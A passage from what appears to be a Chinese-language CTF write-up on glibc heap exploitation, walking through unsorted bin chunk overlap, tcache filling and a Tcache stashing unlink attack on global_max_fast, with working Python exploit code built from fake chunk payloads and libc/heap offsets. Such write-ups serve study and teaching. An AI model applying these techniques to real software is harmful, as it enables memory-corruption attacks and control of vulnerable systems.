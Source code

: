 此時若要了一塊 `0xf0` 大小的 chunk，unsorted bin 的機制會把大的 chunk 切成兩個小的 chunk，一個回傳給 user，一個繼續放在 unsorted bin，而此時如果要得 size 比當初的兩塊 merge 的 chunk 的 size (`0x90`) 還要大的話 (e.g. `0xf0`)，則可以寫值到原先的第二塊 chunk
```
____    ____    _____
0xa0    0x140   0x100
____ =>      => _ _ _
0xa0            _____<- 可以寫到這
____    ____    _____<- 0x40
```
如上圖所示，重新 create 後的 chunk 由 `ptr[9]` 拿到，但是他可以寫到 `ptr[1]` 原本的位置，再加上有 UAF，所以可以拿來利用
<br>

隨後我利用此攻擊，填滿了 `0x110` 的 tcache，以及填入 6 個 `0x100` chunk 到 tcache，做接下來攻擊的準備<br>
`0x110` 之後會提到<br>
`0x100` 是用來打 Tcache stashing unlink
```python
add(0xf0, 'Q') # 10
fchk2 = b'Q'*0x88 + p64(0) + p64(0x110) + p64(0x100) + p64(0xAAAABBBBCCCCDDDD)
for i in range(7):
    edit(10, fchk2)
    delete(1)

fchk = b'Q'*0x88 + p64(0) + p64(0x100) + p64(0x100) + p64(0xAAAABBBBCCCCDDDD)
for i in range(6):
    edit(10, fchk)
    delete(1)
```

第一次透過 `ptr[10]` 修改 `ptr[1]`，目的為透過增加 `ptr[1]` 的 size，修改到**當初 merge 拿完第一塊 chunk 後，剩下的那個 chunk** 的 size 成 `0x100`，且確保 fd 與 bk 都指向 unsorted bin，避免等等丟到 smallbin 時檢查錯誤<br>
而後在 create 一個 `0x100` 的 chunk，加上 header 後 `0x110` > `0x100`，會把此 chunk 丟到 smallbin 內

到此，**當初 merge 拿完第一塊 chunk 後，剩下的那個 chunk** (我們稱作 `chunk G`) 在 size 為 `0x100` 的 smallbin 內

第二次利用 `ptr[1]` 修改 `chunk G` 的 fd 為指向 trampoline，bk 指向 `chunk G`；並用 `ptr[10]`，建立一個 fake chunk，大小為 0x100，fd 指向 `chunk G`，bk 指向 `global_max_fast - 0x10`，作為 trampoline
```python
# fchk = b'Q'*0x88 + p64(0) + p64(0x100) + p64(0x100) + p64(0xAAAABBBBCCCCDDDD)
edit(10, fchk)
edit(1, b'Q'*0x48 + p64(0) + p64(0x101) + p64(libc_addr + 0x1ebbe0)*2)
add(0x100, p64(0x100)*0x1f) # 11, large chunk to smallbin

edit(1, b'Q'*0x48 + p64(0) + p64(0x101) + p64(libc_addr + 0x1ebbe0) + p64(heap + 0x2b0))
edit(10, b'Q'*0x8 + p64(0) + p64(0x101) + p64(heap + 0x390) + p64(global_max_fast - 0x10))
```

到這邊，如果我們再 create 了一個 `0xf0` size 的 chunk，libc 會 return `chunk G` 給 user，又因為 tcache 還沒滿，會把 `chunk G`->bk 的那塊 trampoline 丟到 tcache，並且把 trampoline->bk->fd 也就是 `global_max_fast` 寫入 smallbin 的值，因此接下來 free 的 chunk 都會直接進 fastbin，我們也可以用 fastbin attack 來做攻擊

```python
add(0xf0, p64(0x100)*0x1d) # 12
```

在這邊介紹 `fastbin_reverse_into_tcache`，可以參考[此連結](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/fastbin_reverse_into_tcache.c)，主要是利用 tcache 空的時候，如果 request size 對應到的 fastbin 內仍有 chunks，則會以 reverse 的順序 copy 進 tcache，而 copy 時如果能控制 fastbin fd 與 bk，則可以達到寫入的效果。
